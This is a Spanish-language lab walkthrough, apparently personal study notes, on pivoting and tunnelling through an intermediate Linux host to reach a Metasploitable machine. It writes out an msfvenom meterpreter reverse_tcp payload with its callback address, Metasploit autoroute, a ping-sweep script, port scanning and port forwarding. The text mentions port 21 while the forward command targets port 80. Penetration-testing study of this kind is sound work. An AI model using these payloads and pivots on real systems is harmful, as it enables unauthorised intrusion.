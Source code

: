 [[Lab Pivoting and Tunneling - Synfonos]]
#pivoting 
### CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20240615202507.png]]

Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20240615202518.png]]

Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20240615202536.png]]

MÁQUINA LINUX INTERMEDIA:
![[Pasted image 20240615202541.png]]

MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20240615202547.png]]

De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20240615202556.png]]
### PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```

![[Pasted image 20240615202610.png]]

Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20240615202616.png]]

Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20240615202621.png]]

En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20240615202626.png]]

Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20240615202631.png]]

Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```

![[Pasted image 20240615202637.png]]

Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20240615202643.png]]

Con la máquina víctima:
![[Pasted image 20240615202646.png]]

Lo ejecutamos y detectamos equipos:
![[Pasted image 20240615202702.png]]

Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```
Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20240615202707.png]]

Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```

